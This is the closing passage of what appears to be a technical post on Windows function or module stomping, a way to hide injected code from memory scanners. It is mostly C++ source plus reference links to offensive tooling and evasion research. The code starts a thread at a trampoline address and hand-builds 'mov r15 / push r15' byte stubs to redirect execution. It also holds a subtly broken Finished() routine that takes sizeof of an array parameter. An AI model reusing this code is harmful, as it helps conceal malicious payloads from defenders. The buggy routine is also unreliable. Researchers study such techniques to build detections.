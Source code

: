 ```cpp
#ifndef _DEBUG

    HANDLE hThread = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)trampolineAddress, NULL, 0, &threadID);
    WaitForSingleObjectFunc(hThread, 1000);
#endif

    return 0;
}

VOID _ConstructPushWithBytes(UCHAR* source, UCHAR* destination, UINT sourceStart, UINT destStart) {

    // mov r15, <address>
    destination[destStart] = 0x49;
    destination[destStart + 1] = 0xBF;
    
    for (int i = 0; i < 8; i++) {
        destination[destStart + 2 + i] = source[sourceStart + i];
    }
    // push r15
    destination[destStart + 10] = 0x41;
    destination[destStart + 11] = 0x57;
}

VOID _Hton(ULONG64 value, UCHAR* result, UINT start)
{
    result[start] = value & 0x00000000000000ff;
    result[start + 1] = (value & 0x000000000000ff00) >> 8;
    result[start + 2] = (value & 0x0000000000ff0000) >> 16;
    result[start + 3] = (value & 0x00000000ff000000) >> 24;
    result[start + 4] = (value & 0x000000ff00000000) >> 32;
    result[start + 5] = (value & 0x0000ff0000000000) >> 40;
    result[start + 6] = (value & 0x00ff000000000000) >> 48;
    result[start + 7] = (value & 0xff00000000000000) >> 56;
}

BOOL Finished(UINT x[]) {
    UINT aLength = sizeof(x);
    UINT count = 0;
    
    for (int i = 0; i < aLength; i++) {
        if (x[i] >= 1) {
            count++;
        }
    }
    return count == aLength;
}
```





[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/